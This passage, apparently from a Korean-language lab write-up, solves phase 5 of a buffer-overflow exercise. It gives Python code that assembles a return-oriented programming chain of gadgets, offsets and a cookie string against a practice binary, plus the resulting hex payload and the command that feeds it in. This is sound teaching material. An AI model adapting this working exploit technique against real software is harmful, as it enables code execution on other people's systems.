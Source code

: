 ```python
Ex = b''
Ex = Ex.ljust(GETBUF_STACK_OFFSET, b'A')			# 0x18 byte padding of buffer
Ex += p64(find_gadget_addr("mov rax, rsp ; ret"))	# Gadget for setting `rdi` to current `rsp` 
Ex += p64(find_gadget_addr("mov rdi, rax ; ret"))	#
Ex += p64(find_gadget_addr("pop rsi ; ret"))		# Gadget for setting `rsi` value
# Ex += p64() 									   # Size amount of OFFSET!
Ex += p64(ADD_XY_ADDR)								# Return Address to call `add_xy`
Ex += p64(find_gadget_addr("mov rdi, rax ; ret"))	# Gadget for setting `rdi` to return value of `add_xy`
Ex += p64(TOUCH_3_ADDR)								# Return Address to call `touch_3`
Ex += cookie_to_hex(COOKIE)							# Desired string (Cookie value)
```

`mov rdi, rax`를 수행하면 Stack에 덮어쓴 `WORD_SIZE` 단위 address들이 6개 지난 후에 stringify된 `cookie`의 값을 찾을 수 있다. 따라서, Offset size는 `WORD_SIZE * 6 == 0x30 `이 되어야 한다.

최종적으로 필요한 Code는 다음과 같다.

```py
def phase_5():
    TOUCH_3_ADDR = 0x4017D6
    ADD_XY_ADDR = 0x4018A1
    
    Ex = b''
    Ex = Ex.ljust(GETBUF_STACK_OFFSET, b'A')
    Ex += p64(find_gadget_addr("mov rax, rsp ; ret"))
    Ex += p64(find_gadget_addr("mov rdi, rax ; ret"))
    Ex += p64(find_gadget_addr("pop rsi ; ret"))
    Ex += p64(WORD_SIZE * 6)
    Ex += p64(ADD_XY_ADDR)
    Ex += p64(find_gadget_addr("mov rdi, rax ; ret"))
    Ex += p64(TOUCH_3_ADDR)
    Ex += cookie_to_hex(COOKIE)

    print(byte2hex(Ex))

    with open("exploit.txt", 'w') as f:
        f.write(byte2sphex(Ex))

    os.system("./hex2raw < exploit.txt | ./rtarget")
```

전달되는 data의 hexadecimal value는 다음과 같다.

```text
4141414141414141	// 0x18 byte padding of buffer
4141414141414141	//
4141414141414141	//
2c19400000000000	// Return Address: Gadget address of `mov rax, rsp ; ret`
9718400000000000	// Return Address: Gadget address of `mov rdi, rax ; ret`
a112400000000000	// Return Address: Gadget address of `pop rsi ; ret`
3000000000000000	// Offset value (to be popped to rsi)
a118400000000000	// Return Address: Address of `add_xy`
9718400000000000	// Return Address: Gadget address of `mov rdi, rax ; ret`
d617400000000000	// Return Address: Address of `touch_3`
3665623933336332	// Desired string (Cookie value): 0x3665623933336332 "6eb933c2"
```

---